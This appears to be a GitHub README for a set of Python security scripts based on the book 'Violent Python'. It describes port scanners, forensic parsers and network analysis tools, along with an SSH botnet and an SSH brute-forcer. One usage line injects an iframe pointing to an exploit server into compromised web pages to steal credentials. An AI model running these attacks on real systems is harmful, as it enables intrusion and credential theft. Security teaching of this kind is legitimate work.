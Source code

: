 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  
### Building a port scanner
In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
### Nmap Port Scanner
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
### Building An SSH Botnet
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
### Brute Forcing SSH Passwords with Pxssh
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
### Constructing the SSH Botnet
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py
### 
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
### Mass comprise by bridging FTP and Web
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

# Forensic Investigations with Python
## M) discoverNetworks.py 
### Analysis of wireless aaccess points-WAP in the registry, Using Mechanize to Submit the MAC Address to Wigle
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
### Recover deleted items in the recycle bin
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py
### Using PyPDF to Parse PDF Metadata
Usage#  
taymour:!# python pdfRead.py -F Violent_Python.pdf  
provide metadata and information about pdf like creation date, user, title, creator, producer etc.  


## P) exifFetch.py
### Reading Exif Metadata from Images
build a script to connect to a Website, download all the images on the site, and then check them for Exif metadata.  
#Usage in CMD   
  
python exifFetch.py -u http://www.flickr.com/photos/dvids/4999001925/sizes/o  


## Q) skype-parse.py  
### Investigating skype application artifacts
  
List out variety of contents of skype in python console about skype user history name, tags, location, text messages etc  
Usage#  
python skype-parse.py -p C:\AppData\Roaming\Microsoft\Skype_for_Desktop\skylib\taymourniazi  
  
## R) parse-firefox.py  
### Parsing Firefox Sqlite3 Databases with Python  
Display propoerties like downloads, google search, cookies  
Usage#  
taymour~# python parse-firefox.py -p !/Library/Application/Support/Firefox/Profiles/8fg7cd82.default/  

# Network Traffic Analysis with Python
## S) printGeo.py 
### Using PyGeoIP to Correlate IP to Physical Locations
providing IP adress the script print the details like country, city name, longitude and latitude  
Usage#  
taymour# python printGeo.py  
